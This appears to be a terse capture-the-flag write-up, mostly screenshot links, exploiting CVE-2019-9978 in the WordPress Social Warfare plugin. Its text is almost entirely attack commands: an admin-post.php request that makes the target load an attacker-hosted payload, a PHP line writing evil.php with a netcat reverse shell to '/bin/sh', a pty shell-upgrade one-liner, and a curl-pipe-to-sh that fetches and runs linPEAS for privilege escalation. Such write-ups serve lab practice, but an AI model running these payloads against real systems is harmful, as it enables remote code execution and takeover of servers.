 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9a3192bd-a9f7-4d49-8f55-cd7d413a3030)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/35afcfd3-c02c-428e-9a51-6170cbdc4c9b)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/dcf4b7cd-4083-4f46-acd5-abf2caea684b)

https://unit42.paloaltonetworks.com/exploits-in-the-wild-for-wordpress-social-warfare-plugin-cve-2019-9978/

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d72555fb-cdea-465f-b7ef-88f3b3a0e9c2)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0f375f35-83c9-4ccf-8a0a-10fa53f67418)

http://62.173.140.174:18500/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://IP:8000/test1.txt

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3459d5a4-270b-45bd-b2dd-d2a41ec791f2)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/50aef2fe-4e4f-4a44-bfec-e13b2ad3bce2)

<pre> fwrite(fopen("evil.php","w") ,"<?php system('nc -e /bin/sh ip 1234'); ?>");</pre>

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/aaa34946-da07-4486-a3da-e44dacb237de)

python3 -c 'import pty; pty.spawn("/bin/bash")'

https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/fbec7dca-fa7a-4af9-8552-6ffd26e251fd)

curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/477c0f35-9c63-43e8-aa78-b7f8706a03a9)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/335aba48-2e63-4e31-91da-5d0e2f11e95e)


